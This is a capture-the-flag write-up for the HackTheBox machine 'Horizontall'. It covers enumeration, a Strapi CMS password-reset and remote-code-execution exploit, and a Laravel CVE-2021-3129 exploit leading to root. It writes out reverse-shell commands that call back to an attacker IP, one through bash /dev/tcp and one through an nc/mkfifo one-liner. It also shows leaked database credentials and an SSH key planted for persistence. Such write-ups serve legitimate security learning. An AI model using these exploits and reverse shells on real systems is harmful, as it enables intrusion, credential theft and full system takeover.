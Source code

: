 ```yaml
---
title: "Horizontall"
date: 2022-09-20T14:03:31+01:00
draft: false
categories:
  - HackTheBox
---
```


first add `horizontall.htb` to `/etc/hosts`

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB

80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: horizontall
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1BA2AE710D927F13D483FD5D1E548C9B
| http-methods:
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
                        [Status: 200, Size: 901, Words: 43, Lines: 2]
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
img                     [Status: 301, Size: 194, Words: 7, Lines: 8]
index.html              [Status: 200, Size: 901, Words: 43, Lines: 2]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
favicon.ico             [Status: 200, Size: 4286, Words: 1, Lines: 1]


//api-prod subdomain

admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]

```

hmm...little information

Aaaaand I was stuck for yeeaaars!

until I did a `vhost` enumeration with gobuster

```bash
└──╼ $gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -u http://horizontall.htb/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://horizontall.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2021/12/06 14:30:04 Starting gobuster in VHOST enumeration mode
===============================================================
Found: api-prod.horizontall.htb (Status: 200
```

we add `api-prod.horizontall.htb` to our hosts too
We get a welcome page now and there is nothing in source code...we fuzz that again
The `admin` login page uses `strapi cms`
the version can be found in the javascript file

we exploit that

```bash
└──╼ $python 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM4ODAyMTg1LCJleHAiOjE2NDEzOTQxODV9.FPJVjEL71Mh8aHMWBjeOTxD5tujDziJ8n9N_cD63X_Q
```
And we get a shell on another listenner

```bash
$> bash -c 'exec bash -i &>/dev/tcp/10.10.15.45/4444 <&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```
For more comfort

```bash
strapi@horizontall:~/myapi$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Get flag

```bash
strapi@horizontall:/home/developer$ ls
ls
composer-setup.php  myproject  user.txt
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
the_flag_of_patience_lol
```

## Privilege escalation

no password so we are very limited...we upload and use `linpeas` and found

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1847/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
And these

```bash
strapi@horizontall:~/myapi/config/environments/development$ cat database.json
cat database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
port `8000` is highly suspicious

First lets create ssh keys for persistent access and add pub key to authorized_keys

its possible in `/opt/strapi/.ssh`

now we have ssh access

ssh portforward to our local port 8000
` $ssh -i id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb`

And access `127.0.0.1:8000` in browser

Oh its laravel `Laravel v8 (PHP v7.4.18) `
there is `CVE-2021-3129_exploit` for that...find it on github

```bash
└──╼ $./exploit.py http://localhost:8000 Monolog/RCE1 "uname -a"
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Clonage dans 'phpggc'...
remote: Enumerating objects: 2673, done.
remote: Counting objects: 100% (1015/1015), done.
remote: Compressing objects: 100% (576/576), done.
remote: Total 2673 (delta 414), reused 883 (delta 308), pack-reused 1658
Réception d'objets: 100% (2673/2673), 400.37 Kio | 96.00 Kio/s, fait.
Résolution des deltas: 100% (1056/1056), fait.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

Linux horizontall 4.15.0-154-generic #161-Ubuntu SMP Fri Jul 30 13:04:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

[i] Trying to clear logs
[+] Logs cleared
```
it works...we can get root now

```bash
└──╼ $./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.45 2311 >/tmp/f"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[i] There is no output
[i] Trying to clear logs
...

```
And we get it on our listener

```bash
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 42990
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
boot.sh
pid
restart.sh
root.txt
# cat root.txt
the_flag_of_dedication_kek
```

room finito!

